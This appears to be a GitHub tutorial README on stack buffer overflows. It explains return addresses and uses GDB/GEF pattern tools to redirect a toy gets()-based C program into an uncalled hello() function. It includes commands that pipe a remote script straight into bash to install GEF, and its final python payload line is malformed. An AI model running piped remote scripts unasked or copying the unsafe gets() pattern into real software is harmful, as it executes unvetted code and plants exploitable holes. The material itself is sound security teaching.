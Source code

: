 # Executing malicious code with buffer overflows

![Call Stack](https://upload.wikimedia.org/wikipedia/commons/thumb/d/d3/Call_stack_layout.svg/342px-Call_stack_layout.svg.png)

Whenever you call a function, you add a "stack frame" onto the stack memory
which contains information about the function's local variables, its parameters,
and more importantly its return address.

Programs have something called an "instruction pointer" which points to the area
in memory the current instruction being executed is located.

Whenever a function returns, the stack frame is popped off the call stack and
the instruction pointer is set to the return address.

If we were somehow able to somehow overwrite this return address, it could be
possible for us to manipulate the program to execute a function that wasn't
meant to be executed, or even execute code that we ourselves inject into the
program's memory.

# GDB

GDB (**G**NU **D**e**b**ugger) is a useful program that allows us to "peak"
inside a program and check out areas of memory, namely values stored in
registers.

Being able to peer inside memory is supremely useful if you're attempting to
perform a buffer overflow attack and you happen to have access to the actual
program.

![GDB](https://user-images.githubusercontent.com/38366553/170348178-e19fe05b-6be3-43a9-8ddf-437a15dfce49.png)

You can try installing it from [this website](https://www.sourceware.org/gdb/download/)
or, if you're using a Debian based linux distro, a simple apt install will do
```console
$ sudo apt install gdb
```

# GEF

GEF (**G**DB **E**nhanced **F**eatures) has all the same features as GDB, but
with a little extra which will be handy for performing a buffer overflow attack.

Installing GEF is fairly simple, as all you need to do is run the following command:
```
$ curl -fsSL http://gef.blah.cat/sh | bash -c
```

[Read more](https://gef.readthedocs.io/en/master/)

# Using gdb to perform a simple buffer overflow attack

We will be trying to attack a very simple c program (source code can be found in simple/main.c)

```c
#include <stdio.h>

void hello() {
    printf("Hello\n");
}

int main() {
    char buf[20];
    gets(buf);
}
```
In this attack, we will make the function print hello even though the hello() function is not called in main().

1. Install gdb add-on  
  ``` bash -c "$(curl -fsSL http://gef.blah.cat/sh)"```
2. Start gdb  
   ``` $gdb```  
3. Try to run the executable in gdb    
   ```> file <exec> ```   
   so that the executable is added to gdb.  
   ```> run <exec>```   
   runs the executable in gdb.
4. Try to find the length of the buffer so we know where we should start putting useful information 
   - ```> pattern create -n 8 <length>``` Generate a long string. (-n 8 because 64-bit)
   - Run the program and copy the long string generated by pattern create into the input field.
The output would look something like this:   
<img width="1007" alt="170105430-24c638c2-20a2-4a37-a939-e419e12d2320" src="https://user-images.githubusercontent.com/64151468/170338811-4d7678eb-e010-49b7-aef4-1ebbc41b0ff6.png">
    - The boxed portion ($rbp) would be able to tell us how much did we overwrite the buffer. We can also use ```x $rbp ``` to look up this number.
5. Look up the size of the buffer  
   ```
   > pattern offset <rbp_value>
   ```
6. Find the address of hello() function so we can put it at the end of the buffer.  
    ``` 
    info functions 
    
    ```
    <img width="410" alt="Screen Shot 2022-05-24 at 3 24 21 PM" src="https://user-images.githubusercontent.com/64151468/170339491-36dc6544-b5e4-42b0-b712-420315696880.png">

7. Exit out of gdb with Ctrl+D. Use python to input what we want into the program in bash

```
$ python -c "print(A * <offset> + 8 + <address of function in correct endian>)" | ./<exec>"

```
